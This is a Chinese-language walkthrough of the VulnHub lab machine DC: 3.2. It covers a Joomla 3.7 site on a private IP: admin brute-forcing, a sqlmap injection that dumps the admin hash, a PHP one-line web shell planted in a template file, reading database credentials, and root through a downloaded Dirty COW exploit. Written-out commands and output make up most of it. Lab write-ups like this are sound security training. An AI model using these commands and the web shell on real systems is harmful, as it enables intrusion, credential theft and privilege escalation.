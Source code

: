 # DC: 3.2

2025.02.22 https://www.vulnhub.com/entry/dc-32,312/

[video](https://www.bilibili.com/video/BV1DgPKeNEuc/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

80 web 是 Joomla CMS，并且发现一个用户名 admin ，http://192.168.5.40/README.txt发现版本 3.7 , 先尝试爆破密码，常使用一个小字典先进行爆破：

```
python3 ~/tools/blast/blast_joomla.py -u http://192.168.5.40 -w ~/tools/dict/passwd_1050.txt  -usr admin
```

得到用户登陆凭据: admin:snoopy 登陆系统 http://192.168.5.40/administrator/ 。

同时该版本也有一个 sql 注入可以利用,sqlmap 同样可以跑出用户的 admin 用户的哈希，然后使用 john 破解也可以得到密码：

```
sqlmap -u "http://192.168.5.40/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --batch --risk=3 --level=5 --random-agent -D "joomladb" --tables -p list[fullordering]

sqlmap -u "http://192.168.5.40/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --batch --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C name,password --dump

+--------+--------------------------------------------------------------+
| name   | password                                                     |
+--------+--------------------------------------------------------------+
| admin  | $2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu |
+--------+--------------------------------------------------------------+
```

在顶部菜单中，Extensions -> Templates -> Templates 选中一个主题 Beez3 ，编辑它的 error.php 页面，在最上面加入 php 一句话木马：`system($_GET['cmd']);`，然后点击保存。

通过下面的语句测试一句话是否成功：

```
curl -s 'http://192.168.5.40/templates/beez3/error.php?cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

执行反弹命令到 kali 上，先查看到 joomla 的数据库配置文件：

```
www-data@DC-3:/var/www/html$ cat configuration.php

public $user = 'root';
public $password = 'squires';
public $db = 'joomladb';
public $dbprefix = 'd8uea_';
public $live_site = '';
public $secret = '7M6S1HqGMvt1JYkY';
```

数据库的 d8uea_users 表中没有其他用户。

没有找到提权到 DC3 的路径，看看内核版本 4.4.0-21-generic 可以使用脏牛，将 https://www.exploit-db.com/download/40847 下载到目标机器上，进行编译：

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cow.cpp -lutil
./dcow -s
```

获得最终 root flag：

```
root@DC-3:~# cat the-flag.txt
 __        __   _ _   ____                   _ _ _ _
 \ \      / /__| | | |  _ \  ___  _ __   ___| | | | |
  \ \ /\ / / _ \ | | | | | |/ _ \| '_ \ / _ \ | | | |
   \ V  V /  __/ | | | |_| | (_) | | | |  __/_|_|_|_|
    \_/\_/ \___|_|_| |____/ \___/|_| |_|\___(_|_|_|_)


Congratulations are in order.  :-)

I hope you've enjoyed this challenge as I enjoyed making it.

If there are any ways that I can improve these little challenges,
please let me know.

As per usual, comments and complaints can be sent via Twitter to @DCAU7

Have a great day!!!!
```
